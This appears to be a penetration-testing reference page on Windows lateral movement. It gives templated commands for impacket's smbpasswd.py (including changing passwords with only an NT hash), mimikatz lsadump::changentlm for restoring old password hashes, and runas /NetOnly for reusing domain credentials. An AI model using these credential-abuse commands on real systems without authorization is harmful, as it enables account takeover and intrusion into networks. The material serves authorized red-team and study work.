 # Windows - Lateral movements

### Expired password renewal

Expired password of local or domain accounts can be renewed over `SMB`
(`MSRPC-SAMR`) using `impacket`'s `smbpasswd.py` Python script. `smbpasswd.py`
supports authentication using an account `NTLM` hash.

```
smbpasswd.py [-newpass '<NEW_PASSWORD>'] <USERNAME>[:<CURRENT_PASSWORD>]@<HOSTNAME | IP>
smbpasswd.py [-newpass '<NEW_PASSWORD>'] -hashes <CURRENT_NT_HASH> <USERNAME>@<HOSTNAME | IP>
```

The account's previous password can be restored using `mimikatz`'s
`lsadump::changentlm` function with only the knowledge of the previous `NTLM`
hash. Note that the minimum password age policy setting may prevent an
immediate password restoration.

```
mimikatz # privilege::debug
mimikatz # lsadump::changentlm /server:<DC_FQDN | HOSTNAME> /user:<USERNAME> [/oldpassword:<CURRENT_PASSWORD> | /old:<CURRENT_NT_HASH>] [/newpassword:<NEW_PASSWORD> | /new:<NEW_NT_HASH>]
```

### Local credential re-use

The local re-use of credentials consist of starting a process on the local
system under the security context and privileges of the specified user.

This security context may be used to access resources on the present system as
well as moving laterally using various methods (remote Windows services or
scheduled tasks, `WMI`, etc.) that can rely on the current user security
context.

###### runas

Set the main DNS server on the attacking computer to the Domain Controller IP
address:

```
Control Panel -> Network and Internet -> Network and Sharing Center -> Change adapter setting -> right click on the adapter being used -> Properties -> Internet Protocol Version 4 (TCP/IPv4) -> Properties -> Set the Preferred DNS server field  
```

To authenticate locally as another user (with plaintext credentials) and
execute PowerShell commands, the `runas` utility can be used.

```
# runas
# Use /NetOnly on off-domain machines
runas /NetOnly /user:<DOMAIN>\<USERNAME> "<COMMAND> <COMMAND_ARGS>"
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe
```

The `NetOnly` option will make `runas` execute on your local computer as the
currently logged on user, but any connections to other computers on the network
will be made using the user account specified.
